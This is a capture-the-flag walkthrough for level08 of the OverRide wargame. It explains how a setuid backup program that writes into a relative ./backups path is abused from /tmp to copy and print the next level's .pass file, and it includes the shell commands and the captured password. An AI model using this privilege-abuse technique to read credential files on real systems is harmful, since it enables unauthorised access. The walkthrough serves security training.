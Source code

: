 # Walkthrough

## Context

### Binary info

```bash
level08@OverRide:~$ ls -l
total 16
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ file level08
level08: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8990336d0891364d2754de14a6cc793677b9122, not stripped
level08@OverRide:~$ ls -lR backups/
backups/:
total 0
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 filename
ERROR: Failed to open filename
```

An elf binary compiled for x86-64 arch with level09's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x00000000004008c4  log_wrapper
0x00000000004009f0  main
...
```

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### Disassembly

Please refer to the [source.c](./source.c) and [assembly.asm](Resources/assembly.asm) for details

The only thing we should look is source.c file really

## Exploit

As we saw in source.c file the program tries to open ./backups/.tmp for write, argv[1] for read and then, with the exact same path as argv1 tries to open file inside ./backups/

We know that the program has level09's privileges so it has no problem to open the .pass file of the level09's user. So what's stopping us to just mocking the file structure to satisfy the program and just read backed up .pass? Nothing!

### Getting .pass

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Well that was too easy i guess?
